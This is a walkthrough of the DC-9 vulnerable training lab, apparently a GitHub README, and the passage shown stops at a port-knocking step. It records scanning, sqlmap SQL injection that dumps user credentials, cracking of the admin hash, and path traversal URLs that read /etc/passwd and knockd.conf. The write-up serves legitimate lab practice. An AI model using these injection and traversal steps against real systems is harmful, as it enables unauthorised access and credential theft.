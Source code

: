 # DC-9-Walkthro9ugh
DC 9 Walkthrough 

DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.




 # Scaning
  
  ### Reconnaissance 
  
Sudo netdiscover 

![Screenshot from 2023-01-27 15-28-48](https://user-images.githubusercontent.com/108471951/215263858-082ed825-2045-4932-8ae6-968c83f08a60.png)





### Nmap

nmap -sV -sC 192.168.0.114

![Screenshot from 2023-01-27 15-29-54](https://user-images.githubusercontent.com/108471951/215263906-ffc64d5e-6ce4-419c-8875-166a145e95ee.png)

nothing found in the namp result





### http 

#### visited website 

192.168.0.114

found records, search page and login portal


![Screenshot from 2023-01-27 15-32-35](https://user-images.githubusercontent.com/108471951/215264747-0f473527-c8fd-4005-99da-14f40ffcd015.png)



![Screenshot from 2023-01-27 15-32-47](https://user-images.githubusercontent.com/108471951/215264756-c7d19641-d1a6-4ced-bd0a-693396d205be.png)



![Screenshot from 2023-01-27 15-32-54](https://user-images.githubusercontent.com/108471951/215264760-c671defa-1e99-4628-a9c7-3f3ffa98b882.png)








### BurpSuite  

found sql vulnerability in search 


![Screenshot from 2023-01-27 15-37-14](https://user-images.githubusercontent.com/108471951/215264843-6ba82037-c40e-4280-a27f-a73a604529d3.png)

copied the burp requet as a text file dc9req.txt 
  
  
  
  
  
### Sqlmap
 
sqlmap -r dc9req.txt --dbs --batch

![Screenshot from 2023-01-27 15-38-56](https://user-images.githubusercontent.com/108471951/215264902-34e46de8-6154-485f-b2fd-22e0fb9254bb.png)






I got databases

![Screenshot from 2023-01-27 15-41-49](https://user-images.githubusercontent.com/108471951/215264981-04e5b990-3f00-4d0f-aa65-638865c0ff35.png)







### Enumuration



sqlmap -r dc9req.txt -D users --batch

![Screenshot from 2023-01-27 15-41-56](https://user-images.githubusercontent.com/108471951/215265055-2fc12d58-ab66-4f39-8396-b35249bb5a2c.png)






found users names and passwords

![Screenshot from 2023-01-27 15-42-02](https://user-images.githubusercontent.com/108471951/215265074-bc095131-f332-4e82-ae6a-926d9efea328.png)

made the users as users.txt and passwords as pass.txt





sqlmap -r dc9req.txt -D Staff --batch


![Screenshot from 2023-01-27 15-52-08](https://user-images.githubusercontent.com/108471951/215265226-6bce32ad-5eaf-48de-8785-dc0f5d633170.png)

found username admin and password but as u can see password in hash formate 





IN crackstation.net i decrypted the hash

https://crackstation.net/


![Screenshot from 2023-01-27 16-05-43](https://user-images.githubusercontent.com/108471951/215265474-2e3f8884-2d28-4211-9a92-809dbbf4e3fc.png)


I got the password









### http


with the user name admin and password transorbitall i got login to the website as admin


![Screenshot from 2023-01-27 16-06-21](https://user-images.githubusercontent.com/108471951/215265532-34163c06-17b0-4c61-bc6b-4f20eef16df6.png)







#### http://192.168.0.114/welcome.php?file=../../../../../../../etc/passwd

![Screenshot from 2023-01-27 16-07-05](https://user-images.githubusercontent.com/108471951/215265590-dbf9b938-5b3e-4324-9dee-4daf64979b90.png)



![Screenshot from 2023-01-27 16-08-45](https://user-images.githubusercontent.com/108471951/215265597-24bfe71b-5bd4-4508-93ab-ea4db673cdc5.png)

as we can see there is no login for shh 





But as u can see the ssh port 22 is closed 


![Screenshot from 2023-01-27 16-09-07](https://user-images.githubusercontent.com/108471951/215265660-46b49973-3691-4f0b-9e5c-da68ed0a063b.png)





To open the ssh port


http://192.168.0.114/welcome.php?file=../../../../../../../etc/knockd.conf

![Screenshot from 2023-01-27 16-11-55](https://user-images.githubusercontent.com/108471951/215265699-8571e126-5191-4989-a85a-5dcdd4b13f87.png)

I found some ports 7469,8475,9842 ,By knockig the ports at a time we can open ssh port 

